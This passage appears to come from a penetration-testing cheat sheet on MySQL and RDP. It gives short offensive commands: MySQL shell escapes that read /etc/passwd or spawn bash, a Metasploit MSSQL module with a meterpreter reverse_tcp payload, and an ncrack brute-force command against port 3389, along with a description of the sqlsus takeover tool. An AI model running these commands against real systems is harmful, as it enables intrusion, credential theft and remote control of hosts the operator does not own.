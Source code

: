
{% endtab %}

{% tab title="Break Into Shell" %}
```
mysql> \! cat /etc/passwd
mysql> \! bash
msf > use exploit/windows/mssql/mssql_payload
msf exploit(mssql_payload) > set PAYLOAD windows/meterpreter/reverse_tcp
```
{% endtab %}

{% tab title="Metasploit" %}
```
admin/mysql/mysql_sql
```

* [https://www.adampalmer.me/iodigitalsec/2013/08/13/mysql-root-to-system-root-with-udf-for-windows-and-linux/](https://www.adampalmer.me/iodigitalsec/2013/08/13/mysql-root-to-system-root-with-udf-for-windows-and-linux/)


{% endtab %}

{% tab title="SQLsus" %}
### [sqlsus](https://www.kali.org/tools/sqlsus/)

sqlsus is an open source MySQL injection and takeover tool, written in perl. Via a command line interface, you can retrieve the database(s) structure, inject your own SQL queries (even complex ones), download files from the web server, crawl the website for writable directories, upload and control a backdoor, clone the database(s), and much more… Whenever relevant, sqlsus will mimic a MySQL console output.
{% endtab %}
{% endtabs %}

## 3389 RDP

{% tabs %}
{% tab title="Resources" %}
* [https://www.hackingarticles.in/remote-desktop-penetration-testing-port-3389/](https://www.hackingarticles.in/remote-desktop-penetration-testing-port-3389/)
* [https://www.hackingarticles.in/wireshark-for-pentester-decrypting-rdp-traffic/](https://www.hackingarticles.in/wireshark-for-pentester-decrypting-rdp-traffic/)
* [PowerRemoteDesktop](https://github.com/DarkCoderSc/PowerRemoteDesktop) - Remote Desktop entirely coded in PowerShell.
* _Operator Handbook: RDP Exploitation - pg. 360_
{% endtab %}

{% tab title="Use" %}
```
rdesktop -u username -p password -g 85% -r disk:share=/root/ 10.10.10.10
```
{% endtab %}

{% tab title="Brute Force" %}
```
# ncrack -u administrator -P 500-worst-passwords.txt -p 3389 [target]
```
{% endtab %}
{% endtabs %}
